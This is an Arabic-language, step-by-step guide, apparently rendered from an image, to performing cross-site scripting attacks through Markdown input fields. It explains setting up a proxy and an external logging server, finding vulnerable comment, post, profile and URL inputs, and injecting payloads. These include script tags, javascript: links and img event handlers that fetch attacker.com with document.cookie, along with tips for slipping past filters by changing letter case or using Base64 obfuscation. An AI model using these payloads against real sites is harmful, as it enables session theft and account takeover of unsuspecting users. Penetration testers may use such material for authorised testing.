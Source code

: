 
## الخطوات العملية للحقن المستخدمة في XSS عبر Markdown
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة الطلبات الصادرة الناتجة عن الحقن.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المرسلة من الحقن.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - تأكد من أن الموقع يدعم إدخال Markdown (مثل في التعليقات، المنشورات، أو حقول النصوص) ويحوله إلى HTML.

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن نقاط إدخال تتيح إدخال محتوى Markdown، مثل:
     - حقول التعليقات في المنتديات أو المدونات.
     - منشورات المستخدم في منصات تدعم Markdown (مثل GitHub أو Reddit).
     - حقول وصف الملف الشخصي أو السيرة الذاتية.
     - معلمات URL التي تُعرض كمحتوى Markdown.
   - افحص استجابات الموقع (عبر Burp Suite أو عرض المصدر) لتحديد ما إذا كان يسمح بوسوم HTML أو روابط JavaScript في الناتج.
   - تحقق من مكتبة Markdown المستخدمة (مثل Marked، Showdown) وسياسات التنظيف (sanitize) عبر اختبار وسوم بسيطة مثل `<b>test</b>`.

3. **إدخال الحقن**:
   - أدخل محتوى Markdown يحتوي على وسوم HTML، روابط JavaScript، أو هياكل ضارة في نقطة الإدخال العرضة.
   - صمم الحقنة لتنفيذ شيفرة ضارة، مثل:
     - `<script>alert('XSS')</script>`
     - `[Click](javascript:fetch('http://attacker.com/log?c='+document.cookie))`
     - `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
   - جرب الحقن في سياقات مختلفة:
     - حقل تعليق: أدخل `<script>fetch('http://attacker.com/log?c='+document.cookie)</script>` في تعليق.
     - منشور: أدخل `[Click](javascript:alert('XSS'))` في منشور Markdown.
     - معلمة URL: `https://example.com/?comment=<img src=x onload="alert('XSS')">`
     - وصف الملف الشخصي: أدخل `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">`.

4. **مراقبة الاستجابات**:
   - تحقق من تنفيذ الحقنة عبر:
     - **أدوات المطورين**: راقب وحدة التحكم (Console) للأخطاء أو التنبيهات، والشبكة (Network) للطلبات الصادرة.
     - **خادم خارجي**: تحقق من سجلات الخادم لتأكيد استلام البيانات (مثل ملفات تعريف الارتباط).
     - **تغييرات DOM**: تحقق من تعديل الصفحة أو إعادة التوجيه.
   - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه، إرسال بيانات إلى الخادم، أو إعادة توجيه).
   - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، CSP، أو تنظيف الإدخال.
   - سجل النتائج لتحديد الحقن الناجحة.

5. **تجربة أنواع حقن مختلفة**:
   - إذا فشلت الحقنة، جرب أنواعًا أخرى:
     - استخدام وسوم HTML مختلفة: `<script>`، `<img>`، `<iframe>`، `<a>`، أو `<div>`.
     - استهداف أحداث مختلفة: `onload`، `onerror`، `onclick`، أو `onmouseover`.
     - تجاوز الفلاتر: جرب صيغ بديلة مثل `<SCRIPT>` (حروف كبيرة) أو تعتيم الشيفرة بـ Base64.
   - اختبر نقاط إدخال متعددة (مثل حقول تعليقات أخرى، منشورات، أو معلمات URL).
   - جرب حقنًا تستغل ميزات Markdown مثل صور `![alt](...)` أو روابط `[text](...)`.
